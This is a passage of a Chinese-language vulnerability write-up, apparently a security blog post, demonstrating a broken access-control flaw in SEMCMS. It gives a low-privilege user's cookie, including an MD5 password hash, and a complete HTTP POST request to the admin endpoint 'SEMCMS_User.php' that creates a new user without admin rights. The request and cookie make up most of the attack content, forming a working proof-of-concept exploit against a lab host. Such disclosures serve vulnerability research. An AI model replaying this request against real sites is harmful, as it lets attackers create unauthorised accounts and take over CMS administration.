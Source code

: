 这里创建的权限为  
Admin  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_jpg/CicIXicDugvT1QYtYOeeby04UoR7rOnicdicEKktXGWRVJx97HLxJibEXy1xlfVF1WXj9iaJIwtGqWlhgWTu5jTlwWrg/640?wx_fmt=other&from=appmsg "")  
  
  
然后登录sjw账户，拿到sjw账户的cookie  
  
可以看到sjw并没有任何功能  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_jpg/CicIXicDugvT1QYtYOeeby04UoR7rOnicdicUkMctuicBjtO121XN8KqhYhv2jNhN9a9blzLoK7gsGOMMibjfFQWCKjg/640?wx_fmt=other&from=appmsg "")  
  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_jpg/CicIXicDugvT1QYtYOeeby04UoR7rOnicdicmLMPZlLIvuXNzW9vru5KGwpvkntZ7FdWM2jqXIAyDMRtaaiaMibIc3Jw/640?wx_fmt=other&from=appmsg "")  
```
Cookie: scusername=sjw; scuseradmin=sjw; scuserpass=e10adc3949ba59abbe56e057f20f883e
```  
  
用刚才的请求包替换cookie，创建新用户sjw2  
```
POST /p9aVTG_Admin/SEMCMS_User.php?Class=add&CF=user HTTP/1.1
Host: 192.168.112.140
Content-Length: 108
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Origin: http://192.168.112.140
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/120.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://192.168.112.140/p9aVTG_Admin/SEMCMS_User.php?type=add
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: scusername=sjw; scuseradmin=sjw; scuserpass=e10adc3949ba59abbe56e057f20f883e
Connection: close

user_name=sjw2&user_admin=sjw2&user_ps=123456&user_tel=123&user_email=123%40qq.com&submit=%E5%A2%9E%E5%8A%A0
```  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_jpg/CicIXicDugvT1QYtYOeeby04UoR7rOnicdic8jC5ib382rUcMWDcYY4oIhicSiceIG8QadENYl14EepgJfS0uTZ2aCsuQ/640?wx_fmt=other&from=appmsg "")  
  
再次登录到  
Admin  
账户查看  
  
创建成功  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_jpg/CicIXicDugvT1QYtYOeeby04UoR7rOnicdicibiaTZJYE78YERf9DvIzj0PvqNxUKXYHkKsOMeuMcD3gRbicqG56LAqhA/640?wx_fmt=other&from=appmsg "")  
  
  
‍  
  
  
  
  